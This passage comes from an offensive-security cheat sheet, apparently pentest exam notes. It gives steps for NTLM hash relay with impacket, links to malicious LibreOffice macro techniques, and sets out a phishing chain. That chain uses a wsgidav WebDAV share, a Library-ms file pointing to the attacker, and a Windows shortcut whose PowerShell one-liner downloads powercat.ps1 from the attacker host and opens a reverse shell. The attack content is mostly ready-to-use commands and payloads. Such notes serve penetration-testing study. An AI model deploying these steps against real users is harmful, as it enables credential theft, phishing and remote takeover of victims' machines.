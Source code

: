 From the windows machine that we have access as an unprivilege user, we send a dir/ls command to your ip:
```
dir \\$lhost\something
```

With this, impacket will try to relay our hash to other machine with ip is `server_need_access`.

## Client Side Attack

### Macro attacks:

[Libreoffice Calc Macro](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)

[Libreoffice Remote Code](https://insert-script.blogspot.com/2019/02/libreoffice-cve-2018-16858-remote-code.html)

### Mail Server

Get some credentials and try to use it as phishing attack

Setting up a webdav share and put your phishing file in webdab dir (config.Library-ms and the reverse shell shortcut):
```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /path/to/webdav/
```

Use Visual Studio to save the config.Library-ms file:
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://changeheretoyourip</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
NOTE: changeheretoyourip should be your webdav ip, which in this case is your machine tun0 interface ip.

Windows shortcut (in Desktop, select New > Shortcut) should be:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$lhost:$webport/powercat.ps1'); powercat -c $lhost -p $lport -e powershell"
```
